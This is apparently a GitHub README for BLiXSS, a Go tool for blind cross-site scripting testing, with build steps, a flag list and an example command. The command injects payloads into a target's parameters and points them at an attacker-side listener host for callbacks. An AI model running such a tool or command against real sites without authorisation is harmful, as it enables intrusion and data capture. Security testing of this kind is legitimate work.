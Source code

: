 ## Blind XSS Tool (BLiXSS)

BLiXSS is a command-line tool designed for blind XSS (Cross-Site Scripting) testing. It crafts a malicious payload to inject into web application parameters, allowing you to detect potential vulnerabilities.

![blixss_demo](https://github.com/lrluque/blixss/assets/16742563/715904b7-8e3c-4df8-81a3-b0623b01db3a)


### Installation

Clone the repository:

```bash
git clone https://github.com/yourusername/blixss.git
```

Navigate to the `blixss` directory:

```bash
cd blixss
```

Build the executable:

```bash
go build blixss.go
```

### Usage

BLiXSS requires the following parameters:

- `-t`: Target URL (e.g., `http://example.com`)
- `-b`: Body strings with the parameters of the request (e.g., `"parameter1=XSS&parameter2=test2&parameter3=XSS"`)
- `-l`: URL to forward the requests to (e.g., `http://10.10.15.122:45000`)
- `-d`: Specifies a custom directory to make the GET request. If not specified, it will attach `/<<paramName>>` on the request.

Example usage:

```bash
./blixss -t "http://example.com" -b "parameter1=XSS&parameter2=test2&parameter3=XSS" -l "http://10.10.15.122:45000" -d "custom/request/directory"
```

Parameter values different from 'XSS' will not be tested.

### Disclaimer

This tool is for educational purposes only. Do not use it for any illegal activities. I am not responsible for any misuse or damage caused by BLiXSS.

### License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
